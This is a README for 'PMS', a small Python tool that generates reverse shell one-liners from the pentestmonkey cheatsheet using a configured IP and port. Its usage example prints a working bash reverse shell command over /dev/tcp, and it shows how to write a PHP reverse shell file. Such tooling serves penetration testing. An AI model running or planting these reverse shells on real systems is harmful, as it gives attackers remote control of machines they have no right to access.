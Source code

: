 # PMS
PMS - Print My Shell

PMS will help you get you revers shell filled with you IP and port number.\
It's contains [pentestmonkey revers shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) shells.

Configuration
----------------
In ```pms.conf``` file you can set your  ```ethernet_interface``` name, ```ip``` address or ```port``` number\
If your ```ip``` address is set in the conf file it won't use the ```ethernet_interface``` address\
You can specify your ```ip``` address or ```port``` number as an argument too.

Arguments
-----------------
```-t --type```: **required**, reverse shell type , (eg. "bash")\
```-c --config```: *optional* , configuration file , ```<default> pms.conf```\
```-i --ip```: *optional*, IP address\
```-p --port```: *optional* port number\


Usage
----------------
```sh
$ python3 pms.py --type bash
bash -i >& /dev/tcp/10.0.0.1/1111 0>&1
```
Get php reverse shell file
```sh
$ python3 pms.py --type php-rev > shell.php
```
